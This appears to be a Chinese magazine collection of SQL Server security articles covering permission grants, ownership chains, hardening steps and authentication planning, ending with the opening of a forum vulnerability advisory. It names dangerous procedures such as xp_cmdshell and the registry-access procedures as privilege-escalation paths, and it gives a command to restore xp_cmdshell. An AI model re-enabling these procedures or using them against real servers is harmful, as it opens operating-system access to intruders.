```sql
GRANT SELECT ON member TO readerB
WITH GRANT OPTION
```

这将允许 `userB` 可以授权其他用户访问该对象。但是 `userB` 不能授予超出其拥有权限以外的权限。在这个例子中，`userB` 只能给其他用户授予 `select` 权限。当使用 `with grant option` 时，语句中的 `<user>` 只能指定为具体的用户，而不能是组名。当收回一个用户权限时，标准的 `Revoke` 语句并不能将被该用户分配给其他用户的这个权限也收回，你只能用以下语法将该权限全部收回：

```sql
Revoke <permission> on <object> from <user>
with cascade
```

这条 `Revoke` 语句收回该用户的权限，所有由该用户授权的其他用户的该权限也都被收回。另一个值得注意的一点是下面语句的功能：

```sql
GRANT ALL ON mymember TO userC
```

在嵌套授权时，关键字 `all` 代表当前用户所拥有的所有权限，这样可以避免在语句中列举各种权限。

使用 `Grant` 语句时，可以使用一种变通的语法。这种语法的改变是在字段名的位置上。新的语法可以将字段名写在权限的后面而不是写在表的后面。例如：

```sql
GRANT SELECT (member_no, lastname, firstname), UPDATE (lastname, firstname)
ON member TO userB
```

这条 `Grant` 语句使 `userB` 能 `select` 前三个字段，但只能 `update` 后两个字段。否则，您只能用两条标准的 `Grant` 语句替代：

```sql
GRANT SELECT ON member (member_no, lastname, firstname) TO userB
GRANT UPDATE ON member (lastname, firstname) TO userB
```

这两条语句和新语法的一条语句执行的功能相同。类似的，下面是 `Revoke` 的新语法：

```sql
Revoke select (member_no, lastname, firstname), update (lastname, firstname) on member from userB
```

`Grant` 和 `Revoke` 的这两种格式都是有效的，两种格式之间可以互换。

### 4、所有权链

SQL Server 中比较复杂和难以理解的概念是所有权链。

当创建视图或存储过程时，所有权链也被创建出来。一个所有权链是视图和存储过程在创建时依赖的对象的拥有者的名单。当一个用户从给定的视图中提取（select）数据时，SQL Server 将检验该用户在视图上的权限而且要检查所有权链。

有两种类型的所有权链：当一个视图的属主拥有视图中所有引用的对象时，这个视图上有一个完整所有权链（unbroken ownership chain）。当一个视图依赖的对象属于一个以上的用户时，将出现所有权断链（broken ownership chain）。如果 sam 在属于 marry 的表上创建了一个视图，所有权链将被打断。所有权断链不是固有的错误，任何数据库中由多个用户创建的视图都可能包含断链。理解权限在权链内部所起的作用是非常重要的。注意，在没有完成前面演示的步骤前，不要做这个演示。

这个演示引导你为不同的用户创建用户自定义对象，同时检验所有权链。

- （1）打开 SQL 企业管理器并展开相应的服务器。

- (2) 打开 Database 文件夹，右击 library 数据库，选择 properties。在 library properties 对话框中，单击 options 页，选中 Select Into/Bulk Copy 选项。

- (3) 在 library properties 对话框中，单击 permission 将显示当前用户语句权限的情况。有关权限的问题将在本章稍后的部分进行探讨。现在为 userA 选中 Create Table 和 Create View 权限，单击“确定”按钮提交修改操作。

- (4) 打开 QUERY ANALYZER 窗口并且以 userA 的身份进行登录，输入以下的命令：

```sql
SELECT member_no, lastname,
firstname INTO mymember FROM member
```

返回结果：
(10001 row(s) affected)
表示创建新表成功，新表是 userA.mymember。

- (5) 下面的语句在 mymember 表上创建一个视图：

```sql
CREATE VIEW vMYMember AS
SELECT * FROM mymember
```

返回结果是：The command(s) completed successfully. 表示创建成功。

- (6) 用下面的语句在该视图上为 userB 授权：

```sql
GRANT SELECT ON vMYMember TO userB
```

返回结果是：The command(s) completed successfully. 表示授权成功。

- (7) 打开 Query Analyzer 窗口并且以 userB 的身份进行登录，执行查询语句：`SELECT * FROM userA.vMYMember`，将返回 vMYMember 视图中的记录。而执行查询语句 `SELECT * FROM userA.mymember`，您将得到拒绝访问的错误信息：

```
Server: Msg 229, Level 14, State 5, Line 1
SELECT permission denied on object 'mymember', database 'library', owner 'userA'
```

这段演示说明的是完整所有权链（unbroken ownership chain），因为 userA 拥有在 vMYMember 中引用的所有的表，而且 userA 授权 userB 访问视图，所以 userB 可以在视图上，而不是直接在表上执行 SELECT 查询。当 userB 试图访问 userA.vMYMember 中的数据时，SQL Server 将检查其在 userA.vMYMember 上的权限，并且将沿着权链检查在余下对象上的所有权。如果所有权保持一致——在这个例子中，userA 拥有 vMYMember 中引用的表，这时将不再检查权限。SQL Server 假定这样一个前提，如果表和视图被同一个用户拥有，该用户可以对其所拥有的对象进行处理和授权，这段教学提供了一个所有权链是如何用来控制数据访问的例子。userA 为 userB 提供在视图上 SELECT 的能力，但没有给 userB 访问任何视图以外的数据或直接访问表的权限。这是为数据库提供安全性的有效方法，因为底层表的属主是有权控制谁在访问那些数据。不经过 userA 的授权，userB 无法访问数据。如果 userA 在一个属于 dbo 的表上创建了一个视图，而 userB 在该表上没有访问权限，userB 将无法访问数据。这正是权限只在所有权改变时进行检验的关键。

在下面的演示中，userA 将创建一个依赖 mymember 表和 dbo.member 表的视图。这将建立一个所有权断链（broken ownership chain）。您将学到如何让 userB 获得访问视图权限的方法。

- (1) 打开 Query Analyzer 的窗口，并以 userA 的身份登录。

- (2) 用下面的语法创建视图：

```sql
CREATE VIEW vjoinedMYmember AS
SELECT mymember.member_no, lastname,
middleinitial FROM member INNER JOIN
mymember ON mymember.member_no = member.
member_no
```

返回结果是：The command(s) completed successfully. 表示创建成功。

- (3) 用下面语句授权 userB 在视图上的 SELECT 权限：

```sql
GRANT SELECT ON vjoinedMYmember TO userB
```

返回结果是：The command(s) completed successfully. 表示授权成功。

- (4) 打开另一个 Query Analyzer 的窗口，并以 userB 的身份登录。

- (5) 在 QUERY 窗口中，使用下面的查询语句从 vjoinedMYmember 提取数据：

```sql
SELECT * FROM userA.vjoinedMYmember
```

这条语句不能正确执行，将会显示如下错误信息：

```
Server: Msg 229, Level 14, State 5, Line 1
SELECT permission denied on object 'member', database 'library', owner 'dbo'
```

- (6) 在以 sa 登录的 Query Analyzer 窗口中，输入下面的语句授权 userB 在视图上的访问权限：

```sql
GRANT SELECT ON member TO userB
```

- (7) 从 userB 的 Query Analyzer 会话中，重新执行查询。这次查询将返回正确结果。

因为所有权在从 userA.vjoinedMYmember 到 dbo.member 发生了变化，在 dbo.member 表上将进行权限的检查。这就是在第 6 步中出现错误信息的原因。在拥有者授权之后，权限得到，userB 便可以访问视图中的数据。

所有权以相同的方法作用于存储过程。

## 5、语句权限

语句权限授予用户执行相应的命令的能力，像创建对象、删除对象和数据库备份。在语句授权中有两种情况比较复杂：怎样分配权限和设置缺省，语句权限是如何影响存储过程的。

以下四种用户可以对语句授权：

- 系统管理员（SYSTEM ADMINISTRATOR）：有 sa 账号或具有相同权限的用户。
- 数据库的属主（DATABASE OWNER）：当前数据库的拥有者。
- 对象的属主（OBJECT OWNER）：当前对象的拥有者。
- 数据库用户（USER）：不属于以上用户的其他用户。

任何用户可以在任何时间属于任何一种角色。当一个数据库属主使用一个不属于他的数据库对象时，将成为普通的数据库用户。一个数据库用户访问属于他的对象时将成为对象属主。同样当对象属主访问不属于他的对象时将成为普通的数据库用户。系统管理员将一直是系统管理员，但当系统管理员访问将其排除在外的数据库或不属于他的对象时，他将成为普通数据库用户。

要记住这些角色的作用，下面是一些规则用来区分谁可以干什么的规则：

用户拥有他们自己的连接。这意味着他们可以改变连接属性，包括开始、结束或终止事务和设置决定会话行为变量。

1. 对象的属主总是能管理自己的对象。任何对象的属主包括数据库的属主，能够使用 GRANT 或 REVOKE 语句来控制谁可以访问他的对象。一个对象的属主可以在属于他的表上创建视图和触发器。一个数据库的属主能够管理数据库的大小或对其进行备份。一个对象的属主也能删除他的对象。管理对象的能力是不可传递的。
2. 一个对象属主能够允许其他用户创建子对象。换句话说，就是系统管理员允许一个用户去创建数据库。那个用户变成数据库属主。数据库属主可以依次允许任何用户在它的数据库中创建他们的对象，像表、存储过程或视图。
3. 任何用户都可以访问 TEMPDB。许多查询隐含地使用 TEMPDB，特别是指定 ORDER BY 时。所有的用户都必须有权在 TEMPDB 上能够创建和删除数据。

现在我们已经熟悉了语句权限的设置，下面我们将学习怎样对它们进行分配。前面我们提到使用 GRANT 命令对对象权限进行分配，同样我们也可用它来为语句进行授权。下面是对语句授权的 GRANT 命令格式：

```sql
GRANT <statement> TO <user>
```

例如：我们对 userA 授予在当前数据库中建表的权限：`GRANT CREATE TABLE TO userA`。

语句权限与所有权链关系：权限授予在对象上和语句上的效果是不相同的。例如：dbo 创建了一个删除事务日志的存储过程，并且为一个普通数据库用户授予了 EXECUTE 这个存储过程权限，但当用户执行这个存储过程时，SQL Server 会产生一个权限上的错误。但从对象权限角度上看，这个用户是能够执行存储过程的，因为 dbo 拥有这个存储过程对象，因此他可以授权其他用户使用它。另外，如果一些没有 BACKUP TRANSACTION 权限的用户试图创建删除事务日志的存储过程时，将无法执行 CREATE PROCEDURE 语句。

到这里项目开发中 SQL Server 安全性应用已可以告一段落。因为篇幅有限，我不可能很全面透彻地介绍全部内容，只能摘出一些要点以及项目中经常被忽略的重点来讲。希望读者能从中有所收获，并用本文介绍的内容来完善在项目开发中 SQL Server 的安全性。

利用数据库漏洞进行入侵是黑客们常用的手法，特别是 MS SQL 的某些漏洞更是让他们屡屡得手。那么，如何进行安全配置，维护好 SQL Server 的安全呢？这是本文重点讨论的问题。

### SQL Server 的安全配置

### 文/Chinaboy

微软的 SQL Server 是一种广泛使用的数据库，IIS5.0+ASP+SQL Server 已经成为很多电子商务网站、企业内部信息化的平台。但是，数据库的安全性又有多少人重视呢？很多管理员认为只要把好网络和操作系统的安全关就可以万事大吉了。其实由于系统管理员对数据库不熟悉而数据库管理员又对安全问题关心太少，这样就造成管理上的不便。并且一些安全公司也忽略数据库安全，这就使数据库的安全问题更加严峻了。数据库系统中存在的安全漏洞和不当的配置通常会造成严重的后果，而且都难以被网络管理人员发现，但是黑客却善于发现这些漏洞进行入侵，因此我们的损失会更大。所以数据库的安全问题不容忽视！

数据库应用程序通常同操作系统的最高管理员权限密切相关，而属于“端口”型的 SQL Server 数据库能被任何人用分析工具进行连接，从而绕过操作系统的安全机制，进而闯入系统，破坏和窃取数据资料，甚至破坏整个系统。

怎么样，恐怖吗？好，现在我们就来谈谈有关 SQL Server 2000 数据库的安全配置以及一些相关的安全和使用上的问题。

在进行 SQL Server 2000 数据库的安全配置之前，你必须对操作系统进行安全配置，保证没有空口令、弱密码之类的东西！然后，你的 IIS 要保证没有什么大的问题，保证没有 IPC$ 空连接……总之，你要保证你的服务器的安全！然后对你要使用的操作数据库软件进行必要的安全审核，比如对 ASP、PHP 等脚本，这是很多基于数据库的 Web 应用常出现的安全隐患，对于脚本主要是一个过滤问题，需要过滤一些类似 '、"、@、/、\、#、% 之类的字符，防止某些人构造恶意的 SQL 语句来……在 IIS 里面把不必要的映射都给废了！

现在我们来讨论 SQL Server 的安全配置。

首先还是安装问题，你必须要保证你安装 SQL Server 的分区是 NTFS 格式，否则毫无安全性可言！另外，如果条件允许，最好不要和用于 Web 的服务器用同一台机器，并且 SQL Server 必须要安装在单独的分区。

密码对于数据库来说，其重要性就不说了，但是，可悲的是很多数据库账号的密码过于简单，甚至是空密码！这和系统弱密码一样，都可以得到系统的完全控制权限！对于 sa，我们要特别注意不要让 sa 账号的密码写于应用程序或者脚本中。由于 SQL Server 不能更改 sa 用户名称，也不能删除这个超级用户，所以，对于 sa 这个黑客非常喜欢的账号我们要特别关照。首先我们要用一个非常强壮的密码来武装 sa，例如使用字母加数字和 Unicode 字符来做密码。另外，不要在数据库应用中使用 sa 账号，只有当没有其他方法登录到 SQL Server 的时候（例如，当其他系统管理员不可用或忘记了密码时）才使用 sa。建议管理员新建一个拥有与 sa 一样权限的超级用户，并且用它来管理数据库。另外，不要随便将管理员权限赋予太多的账号！

SQL Server 的认证模式有 Windows 身份认证和混合身份认证两种。如果数据库管理员不希望操作系统管理员通过操作系统登录来接触数据库的话，可以在账号管理中把系统账号“BUILTIN\Administrators”删除。不过，这样做有一个危险，就是一旦忘记 sa 账号密码的话，就没法恢复！这样做是不推荐的！

SQL Server 的功能很强大，这给我们的工作带来了不少的方便，同时也给黑客的入侵带来了很多的方便。

SQL Server 的存储过程很多，其实在多数应用中我们根本用不到多少系统的存储过程，而 SQL Server 的这么多系统存储过程只是用来适应广大用户需求的，既然我们用不上，那么就删掉吧！很多的过程会很容易地被人利用提升权限或进行破坏。

比如 xp_cmdshell 是进入操作系统的最佳捷径，是数据库留给操作系统的一个大后门。这个是黑客喜欢的！对于我们来说没有什么大的用处，需要删掉！删除命令如下：

```sql
use master
sp_dropextendedproc 'xp_cmdshell'
```

如果你一定要用这个存储过程，也可以把它恢复过来（不过，被黑了不要怪我）！恢复命令如下：

```sql
sp_addextendedproc 'xp_cmdshell', 'xpsql70.dll'
```

以下的 OLE 自动存储过程，基本上是没有什么用处，如果你不需要，请丢弃（会造成管理器中的某些特征不能使用，但是一般不会，所以请放心删除），这些过程包括：

- Sp_OACreate
- Sp_OADestroy
- Sp_OAGetErrorInfo
- Sp_OAGetProperty
- Sp_OAMethod
- Sp_OASetProperty
- Sp_OAStop

注册表的访问存储过程能够读出操作系统管理员的密码，而对我们来说又没有什么用，留着反而会有麻烦！所以删掉！这些存储过程如下：

- Xp_regaddmultistring
- Xp_regdeletekey
- Xp_regdeletevalue
- Xp_regenumvalues
- Xp_regread
- Xp_regremovemultistring
- Xp_regwrite

去掉其他系统存储过程，如果你认为还有威胁，当然要小心 Drop 这些过程，你可以在测试机器上测试，保证你正常的系统能完成工作，这些过程包括：

```sql
sp_bindsession    sp_cursor    sp_cursorclose
sp_cursorfetch    sp_cursoropen    sp_cursoroption
sp_getbindtoken    sp_GetMBCSCharLen
sp_IsMBCSLeadByte
sp_OACreate    sp_OADestroy    sp_OAGetErrorInfo
sp_OAGetProperty    sp_OAMethod
sp_OASetProperty    sp_OAStop    sp_replcmds    sp_replcounters
```

我们来看看 SQL Server 服务程序支持的网络协议库：

| 协议列表 | 可能存在的漏洞 | 是否加密 |
|---|---|---|
| Named pipes（有名管道） | 使用 NT SMB 端口（TCP 139，UDP 137、138）来进行通信，这些可以由防火墙控制，但如果内部网络可随意访问的话也是一个不小的缺陷。用户名、密码和数据没有进行加密传输，任何人可以通过 SNIFFER 来进行数据捕获。 | 否 |
| IP Sockets | 默认状态下开 1433 端口，你可以使用扫描器来查看这个端口，可以被 SNIFFER 截获数据。 | 否 |
| Multi-Protocol | 客户端需要支持 NT RPCs；在不同种类的环境中可能引起问题。默认情况下使用 TCP 随机端口，但防火墙进行端口固定实现。需要注意加密选项是否选择，默认是不选择此选项的。 | 是 |
| NWLink | 存在被 SNIFFER 截获数据的危险。 | 否 |
| AppleTalk（ADSP） | 存在被 SNIFFER 截获数据的危险。 | 否 |
| Banyan Vines | 存在被 SNIFFER 截获数据的危险。 | 否 |

默认情况下，SQL Server 使用 1433 端口监听，很多人都说 SQL Server 配置的时候要把这个端口改变，这样别人就不能很容易地知道使用的是什么端口了。现在我们就来修改默认端口，更改原默认的 1433 端口。在实例属性中选择网络配置中的 TCP/IP 协议的属性，将 TCP/IP 使用的默认端口变为其他端口。

在实例属性中选择 TCP/IP 协议的属性。选择“隐藏 SQL Server 实例”。如果隐藏了 SQL Server 实例，则将禁止对试图枚举网络上现有的 SQL Server 实例的客户端所发出的广播作出响应。这样，别人就不能用 1434 来探测你的 TCP/IP 端口了。

但是这样还不是很安全，由于 1434 端口探测没有限制，能够被别人探测到一些数据库信息，而且还可能遭到 DOS 攻击，让数据库服务器的 CPU 负荷增大，所以对 Windows 2000 操作系统来说，在 IPSec 过滤拒绝掉 1434 端口的 UDP 通讯，可以尽可能地隐藏你的 SQL Server。

在这里使用的是 CA，所以我们要创建一个证书，至于证书的创建，这里不再赘述。

另外，顺便说一句，SQL Server 2000 使用 Tabular Data Stream 协议来进行网络数据交换，如果不加密的话，所有的网络传输都是明文的，包括密码、数据库内容等等，这对于数据库的安全来说，威胁是很大的，它能被人在网络中截获到他们需要的东西，包括数据库账号和密码。

编者按：刚看完特约作者 sinister 撰写的项目开发中 SQL Server 的安全性应用，也不知道大家的感觉如何，小编我还是受益匪浅，然三人行必有我师，虽然 sinister 的文章介绍的相当全面，但看完此篇关于 SQL Server 的安全规划还是有不小收获。同一个话题，不同的人有不同的见解，学无止境嘛！

## SQL Server安全规划全攻略

文／致爱的人

在改进 SQL Server 7.0 系列所实现的安全机制的过程中，Microsoft 建立了一种既灵活又强大的安全管理机制，它能够对用户访问 SQL Server 服务器系统和数据库的安全进行全面地管理。按照本文介绍的步骤，你可以为 SQL Server 7.0（或 2000）构造出一个灵活的、可管理的安全策略，而且它的安全性经得起考验。

### 一、验证方法选择

本文对验证（authentication）和授权（authorization）这两个概念作不同的解释。验证是指检验用户的身份标识，授权是指允许用户做些什么。在本文的讨论中，验证过程在用户登录 SQL Server 的时候出现，授权过程在用户试图访问数据或执行命令的时候出现。

构造安全策略的第一个步骤是确定 SQL Server 用哪种方式验证用户。SQL Server 的验证是把一组账户、密码与 Master 数据库 Sysxlogins 表中的一个清单进行匹配。Windows NT/2000 的验证是请求域控制器检查用户身份的合法性。一般地，如果服务器可以访问域控制器，我们应该使用 Windows NT/2000 验证。域控制器可以是 Win2K 服务器，也可以是 NT 服务器。无论在哪种情况下，SQL Server 都接收到一个访问标记（Access Token）。访问标记是在验证过程中构造出来的一个特殊列表，其中包含了用户的 SID（安全标识号）以及一系列用户所在组的 SID。正如本文后面所介绍的，SQL Server 以这些 SID 为基础授予访问权限。注意，操作系统如何构造访问标记并不重要，SQL Server 只使用访问标记中的 SID。也就是说，不论你使用 SQL Server 2000、SQL Server 7.0、Win2K 还是 NT 进行验证都无关紧要，结果都一样。

如果使用 SQL Server 验证的登录，它最大的好处是很容易通过 Enterprise Manager 实现，最大的缺点在于 SQL Server 验证的登录只对特定的服务器有效，也就是说，在一个多服务器的环境中管理比较困难。使用 SQL Server 进行验证的第二个重要的缺点是，对于每一个数据库，我们必须分别地为它管理权限。如果某个用户对两个数据库有相同的权限要求，我们必须手工设置两个数据库的权限，或者编写脚本设置权限。如果用户数量较少，比如 25 个以下，而且这些用户的权限变化不是很频繁，SQL Server 验证的登录或许适用。但是，在几乎所有的其他情况下（有一些例外情况，例如直接管理安全问题的应用），这种登录方式的管理负担将超过它的优点。

### 二、Web环境中的验证

即使最好的安全策略也常常在一种情形前屈服，这种情形就是在 Web 应用中使用 SQL Server 的数据。在这种情形下，进行验证的典型方法是把一组 SQL Server 登录名称和密码嵌入到 Web 服务器上运行的程序，比如 ASP 页面或者 CGI 脚本；然后，由 Web 服务器负责验证用户，应用程序则使用它自己的登录账户（或者是系统管理员 sa 账户，或者为了方便起见，使用 Sysadmin 服务器角色中的登录账户）为用户访问数据。

这种安排有几个缺点，其中最重要的包括：它不具备对用户在服务器上的活动进行审核的能力，完全依赖于 Web 应用程序实现用户验证，当 SQL Server 需要限定用户权限时不同的用户之间不易区别。如果你使用的是 IIS 5.0 或者 IIS 4.0，你可以用四种方法验证用户。第一种方法是为每一个网站和每一个虚拟目录创建一个匿名用户的 NT 账户。此后，所有应用程序登录 SQL Server 时都使用该安全环境。我们可以通过授予 NT 匿名账户合适的权限，改进审核和验证功能。

第二种方法是让所有网站使用 Basic 验证。此时，只有当用户在对话框中输入了合法的账户和密码， IIS 才会允许他们访问页面。IIS 依靠一个 NT 安全数据库实现登录身份验证，NT 安全数据库既可以在本地服务器上，也可以在域控制器上。当用户运行一个访问 SQL Server 数据库的程序或者脚本时，IIS 把用户为了浏览页面而提供的身份信息发送给服务器。如果你使用这种方法，应该记住：在通常情况下，浏览器与服务器之间的密码传送一般是不加密的，对于那些使用 Basic 验证而安全又很重要的网站，你必须实现 SSL（Secure Sockets Layer，安全套接字层）。

在客户端只使用 IE 5.0、IE 4.0、IE 3.0 浏览器的情况下，可以使用第三种验证方法。可以在 Web 网站上和虚拟目录上都启用 NT 验证。IE 会把用户登录计算机的身份信息发送给 IIS，当该用户试图登录 SQL Server 时 IIS 就使用这些登录信息。使用这种简化的方法时，我们可以在一个远程网站的域上对用户身份进行验证（该远程网站登录到一个与运行着 Web 服务器的域有着信任关系的域）。

最后，如果用户都有个人数字证书，你可以把那些证书映射到本地域的 NT 账户上。个人数字证书与服务器数字证书以同样的技术为基础，它证明用户身份标识的合法性，所以可以取代 NT 的 Challenge/Response（质询／回应）验证算法。Netscape 和 IE 都自动在每一个页面请求中把证书信息发送给 IIS。IIS 提供了一个让管理员把证书映射到 NT 账户的工具。因此，我们可以用数字证书取代通常的提供账户名字和密码的登录过程。

由此可见，通过 NT 账户验证用户时我们可以使用多种实现方法。即使当用户通过 IIS 跨越 Internet 连接 SQL Server 时，选择仍旧存在。因此，你应该把 NT 验证作为首选的用户身份验证办法。

### 三、设置全局组

构造安全策略的下一个步骤是确定用户应该属于什么组。通常，每一个组织或应用程序的用户都可以按照他们对数据的特定访问要求分成许多类别。例如，会计应用软件的用户一般包括：数据输入操作员，数据输入管理员，报表编写员，会计师，审计员，财务经理等。每一组用户都有不同的数据库访问要求。

控制数据访问权限最简单的方法是，对于每一组用户，分别地为它创建一个满足该组用户权限要求的、域内全局有效的组。我们既可以为每一个应用分别创建组，也可以创建适用于整个企业的、涵盖广泛用户类别的组。然而，如果你想要能够精确地了解组成员可以做些什么，为每一个应用程序分别创建组是一种较好的选择。例如，在前面的会计系统中，我们应该创建 Data Entry Operators、Accounting Data Entry Managers 等组。请记住，为了简化管理，最好为组取一个能够明确表示出作用的名字。

除了面向特定应用程序的组之外，我们还需要几个基本组。基本组的成员负责管理服务器。按照习惯，我们可以创建下面这些基本组：SQL Server Administrators、SQL Server Users、SQL Server Denied Users、SQL Server DB Creators、SQL Server Security Operators、SQL Server Database Security Operators、SQL Server Developers，以及 DB_Name Users（其中 DB_Name 是服务器上一个数据库的名字）。当然，如果必要的话，你还可以创建其他组。

创建了全局组之后，接下来我们可以授予它们访问 SQL Server 的权限。首先为 SQL Server Users 创建一个 NT 验证的登录并授予它登录权限，把 Master 数据库设置为它的默认数据库，但不要授予它访问任何其他数据库的权限，也不要把这个登录账户设置为任何服务器角色的成员。接着再为 SQL Server Denied Users 重复这个过程，但这次要拒绝登录访问。在 SQL Server 中，拒绝权限始终优先。创建了这两个组之后，我们就有了一种允许或拒绝用户访问服务器的便捷方法。

为那些没有直接在 Sysxlogins 系统表里面登记的组授权时，我们不能使用 Enterprise Manager，因为 Enterprise Manager 只允许我们从现有登录名字的列表选择，而不是域内所有组的列表。要访问所有的组，请打开 Query Analyzer，然后用系统存储过程 `sp_addsrvrolemember` 以及 `sp_addrolemember` 进行授权。

对于操作服务器的各个组，我们可以用 `sp_addsrvrolemember` 存储过程把各个登录加入到合适的服务器角色：SQL Server Administrators 成为 Sysadmins 角色的成员；SQL Server DB Creators 成为 Dbcreator 角色的成员；SQL Server Security Operators 成为 Securityadmin 角色的成员。注意 `sp_addsrvrolemember` 存储过程的第一个参数要求是账户的完整路径。例如，BigCo 域的 JoeS 应该是 `bigco\joes`（如果你想用本地账户，则路径应该是 `server_name\joes`）。

要创建在所有新数据库中都存在的用户，你可以修改 Model 数据库。为了简化工作，SQL Server 自动把所有对 Model 数据库的改动复制到新的数据库。只要正确运用 Model 数据库，我们无需定制每一个新创建的数据库。另外，我们可以用 `sp_addrolemember` 存储过程把 SQL Server Security Operators 加入到 `db_securityadmin`，把 SQL Server Developers 加入到 `db_owner` 角色。

注意我们仍然没有授权任何组或账户访问数据库。事实上，我们不能通过 Enterprise Manager 授权数据库访问，因为 Enterprise Manager 的用户界面只允许我们把数据库访问权限授予合法的登录账户。SQL Server 不要求 NT 账户在我们把它设置为数据库角色的成员或分配对象权限之前能够访问数据库，但 Enterprise Manager 有这种限制。尽管如此，只要我们使用的是 `sp_addrolemember` 存储过程，而不是 Enterprise Manager，就可以在不授予域内 NT 账户数据库访问权限的情况下为任意 NT 账户分配权限。

到这里为止，对 Model 数据库的设置已经完成。但是，如果你的用户群体对企业范围内各个应用数据库有着类似的访问要求，你可以把下面这些操作移到 Model 数据库上进行，而不是在面向特定应用的数据库上进行。

### 四、允许数据库访问

在数据库内部，与迄今为止我们对登录验证的处理方式不同，我们可以把权限分配给角色而不是直接把它们分配给全局组。这种能力使得 we 能够轻松地在安全策略中使用 SQL Server 验证的登录。即使你从来没有想要使用 SQL Server 登录账户，本文仍旧建议分配权限给角色，因为这样你能够为未来可能出现的变化做好准备。

创建了数据库之后，我们可以用 `sp_grantdbaccess` 存储过程授权 DB_Name Users 组访问它。但应该注意的是，与 `sp_grantdbaccess` 对应的 `sp_denydbaccess` 存储过程并不存在，也就是说，你不能按照拒绝对服务器访问的方法拒绝对数据库的访问。如果要拒绝数据库访问，我们可以创建另外一个名为 DB_Name Denied Users 的全局组，授权它访问数据库，然后把它设置为 `db_denydatareader` 以及 `db_denydatawriter` 角色的成员。注意 SQL 语句权限的分配，这里的角色只限制对对象的访问，但不限制对 DDL（Data Definition Language，数据定义语言）命令的访问。

正如对登录过程的处理，如果访问标记中的任意 SID 已经在 Sysusers 系统表登记，SQL 将允许用户访问数据库。因此，我们既可以通过用户的个人 NT 账户 SID 授权用户访问数据库，也可以通过用户所在的一个（或者多个）组的 SID 授权。为了简化管理，我们可以创建一个名为 DB_Name Users 的拥有数据库访问权限的全局组，同时不把访问权授予所有其他的组。这样，我们只需简单地在一个全局组中添加或者删除成员就可以增加或者减少数据库用户。

### 五、分配权限

实施安全策略的最后一个步骤是创建用户定义的数据库角色，然后分配权限。完成这个步骤最简单的方法是创建一些名字与全局组名字配套的角色。例如对于前面例子中的会计系统，我们可以创建 Accounting Data Entry Operators、Accounting Data Entry Managers 之类的角色。由于会计数据库中的角色与账务处理任务有关，你可能想要缩短这些角色的名字。然而，如果角色名字与全局组的名字配套，你可以减少混乱，能够更方便地判断出哪些组属于特定的角色。

创建好角色之后就可以分配权限。在这个过程中，我们只需用到标准的 GRANT、REVOKE 和 DENY 命令。但应该注意 DENY 权限，这个权限优先于所有其他权限。如果用户是任意具有 DENY 权限的角色或者组的成员，SQL Server 将拒绝用户访问对象。

接下来我们就可以加入所有 SQL Server 验证的登录。用户定义的数据库角色可以包含 SQL Server 登录以及 NT 全局组、本地组、个人账户，这是它最宝贵的特点之一。用户定义的数据库角色可以作为各种登录的通用容器，我们使用用户定义角色而不是直接把权限分配给全局组的主要原因就在于此。

由于内建的角色一般适用于整个数据库而不是单独的对象，因此这里建议你只使用两个内建的数据库角色，即 `db_securityadmin` 和 `db_owner`。其他内建数据库角色，例如 `db_datareader`，它授予对数据库里面所有对象的 SELECT 权限。虽然你可以用 `db_datareader` 角色授予 SELECT 权限，然后有选择地对个别用户或组拒绝 SELECT 权限，但使用这种方法时，你可能忘记为某些用户或者对象设置权限。

一种更简单、更直接而且不容易出现错误的方法是为这些特殊的用户创建一个用户定义的角色，然后只把那些用户访问对象所需要的权限授予这个用户定义的角色。

### 六、简化安全管理

SQL Server 验证的登录不仅能够方便地实现，而且与 NT 验证的登录相比，它更容易编写到应用程序里。但是，如果用户的数量超过 25，或者服务器数量在一个以上，或者每个用户都可以访问一个以上的数据库，或者数据库有多个管理员，SQL Server 验证的登录不容易管理。由于 SQL Server 没有显示用户有效权限的工具，要记忆每个用户具有哪些权限以及他们为何要得到这些权限就更加困难。即使对于一个数据库管理员还要担负其他责任的小型系统，简化安全策略也有助于减轻问题的复杂程度。因此，首选的方法应该是使用 NT 验证的登录，然后通过一些精心选择的全局组和数据库角色管理数据库访问。

下面是一些简化安全策略的经验规则：

- 用户通过 SQL Server Users 组获得服务器访问，通过 DB_Name Users 组获得数据库访问。
- 用户通过加入全局组获得权限，而全局组通过加入角色获得权限，角色直接拥有数据库里的权限。
- 需要多种权限的用户通过加入多个全局组的方式获得权限。

只要规划得恰当，你就能够在域控制器上完成所有的访问和权限维护工作，使得服务器反映出你在域控制器上进行的各种设置调整。虽然实际应用中情况可能有所变化，但本文介绍的基本措施仍旧适用，它们能够帮助你构造出很容易管理的安全策略。

在条件允许的情况下，最好使用 SSL 来加密协议。当然，你需要一个证书来支持。还有就是一定要备份你的证书，否则证书丢失，你真的会损失很大！

另外，一个优秀的管理员，还要具备一个最起码的素质就是经常备份，如果你从来不备份或者很少备份，那么你就根本没有资格做管理员，至少不是一个合格的管理员。备份对于数据库来说是非常重要的，这样可以在数据库受到损坏的时候，把损失降到最低！

作为一个优秀的管理员，经常查看日志是最起码的能力，所以，要加强数据库日志的记录，审核数据库登录事件的“失败和成功”。在实例属性中选择“安全性”，将其中的审核级别选定为全部，这样，在数据库系统和操作系统日志里面，就详细记录了所有账号的登录事件。所以，必须要定期查看 SQL Server 日志检查是否有可疑的登录事件发生，或者在命令提示符使用如下的命令：

```bash
findstr /C:"登录" "d:\Microsoft SQL Server\MSSQL\LOG\*.*"
```

经过以上的配置，我们的 SQL Server 就具备了一定的安全防范能力。但是，没有绝对的安全，特别是连入网络的服务器，其安全系数就更小了，这就对我们的管理员提出了很高的要求。平时勤打补丁、勤备份、多做安全检查。总之还是那句话：在安全上，无论怎样的小心都是不过分的！

注：在笔者撰稿的时候，听说 SQL Server 又出了大的漏洞，微软也出了相应的补丁，不知道你的补丁打了没有？

### 有关翔浩论坛等多个基于 ASP 的论坛存在的严重安全问题

编者按：whitecell.org 是一个由全国各大安全公司致力于网络安全技术研究的技术精英组成的非营利性安全组织。他们以推动网络安全技术发展及提高防范水平为己任，经常义务为业界发现网络安全漏洞，提出解决方案。最近，他们又率先发现翔浩论坛等三个国内流行的 ASP 论坛中多个文件存在安全问题，且这是一种可暴露 Web 绝对路径、传任意文件等的严重隐患，入侵者可以下载论坛数据库，读取任意文件，甚至取得服务器的控制权。

